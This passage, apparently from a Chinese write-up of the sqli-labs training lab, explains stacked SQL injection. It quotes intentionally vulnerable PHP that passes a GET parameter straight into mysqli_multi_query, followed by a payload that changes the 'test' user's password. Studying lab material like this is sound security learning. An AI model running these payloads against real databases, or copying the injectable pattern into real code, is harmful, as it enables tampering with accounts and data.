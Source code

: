 但是堆叠查询**只能返回第一条查询信息，不返回后面的信息**

```
 select version();select database() 
```

堆叠注入的危害是很大的，可以**任意使用增删改查的语句**，例如删除数据库、修改数据库、添加数据库用户，以下是题目重要部分源码

```php
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
.................
if (mysqli_multi_query($con1, $sql))
{
    
    if ($result = mysqli_store_result($con1))
    {
        if($row = mysqli_fetch_row($result))
        {

            printf("Your Username is : %s", $row[1]);
          
            printf("Your Password is : %s", $row[2]);
          
        }
          // mysqli_free_result($result);
    }
}
```

顺便我们把 test 账号的密码改了

```
?id=1';update users set password='12345' where username='test' ;--+
```

<img src="图片\Snipaste_2023-01-23_16-02-26.png" alt="Snipaste_2023-01-23_16-02-26" style="zoom:80%;" />

拼接的 sql 为

```
$sql="SELECT * FROM users WHERE id='1';update users set password='12345' where username='test' ;--+' LIMIT 0,1";
```

## Less-39
